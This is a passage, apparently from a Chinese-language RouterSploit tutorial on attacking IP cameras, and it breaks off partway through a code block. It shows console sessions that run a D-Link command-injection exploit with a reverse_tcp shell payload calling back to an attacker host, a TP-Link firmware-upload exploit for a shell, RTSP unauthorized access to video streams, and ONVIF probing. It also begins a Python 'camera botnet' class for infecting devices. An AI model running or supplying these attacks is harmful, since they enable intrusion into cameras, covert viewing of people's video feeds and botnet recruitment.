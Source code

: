 ### 1. 命令注入漏洞
```bash
# D-Link 摄像头命令注入
rsf > use exploits/cameras/dlink/dcs_9xx_command_injection
rsf (D-Link DCS-9XX Command Injection) > set target 192.168.1.100
rsf (D-Link DCS-9XX Command Injection) > set payload reverse_tcp
rsf (D-Link DCS-9XX Command Injection) > set lhost 192.168.1.50
rsf (D-Link DCS-9XX Command Injection) > set lport 4444
rsf (D-Link DCS-9XX Command Injection) > run
```

### 2. 固件上传漏洞
```bash
# 通过固件上传获取 shell
rsf > use exploits/cameras/tplink/nc220_260_firmware_upload
rsf (TP-Link NC220/260 Firmware Upload) > set target 192.168.1.101
rsf (TP-Link NC220/260 Firmware Upload) > run
```

---

## 六、摄像头视频流攻击

### 1. RTSP 流未授权访问
```bash
# 检测 RTSP 流未授权访问
rsf > use exploits/cameras/rtsp_unauthorized_access
rsf (RTSP Unauthorized Access) > set target 192.168.1.100
rsf (RTSP Unauthorized Access) > set port 554
rsf (RTSP Unauthorized Access) > run

# 如果成功，可以使用以下 URL 访问视频流：
# rtsp://192.168.1.100:554/stream1
# rtsp://192.168.1.100:554/h264
```

### 2. ONVIF 协议探测
```bash
# ONVIF 服务探测
rsf > use scanners/onvif_detection
rsf (ONVIF Detection) > set target 192.168.1.100
rsf (ONVIF Detection) > run
```

---

## 七、高级摄像头攻击场景

### 1. 摄像头僵尸网络创建
```python
from routersploit.core.exploit import *
from routersploit.core.http.http_client import HTTPClient

class CameraBotnet(HTTPClient):
    """摄像头僵尸网络控制示例"""
    
    def __init__(self):
        self.infected_cameras = []
    
    def infect_camera(self, target):
        # 尝试多种感染方式
        exploits_to_try = [
            'exploits/cameras/dlink/dcs_930l_auth_bypass',
```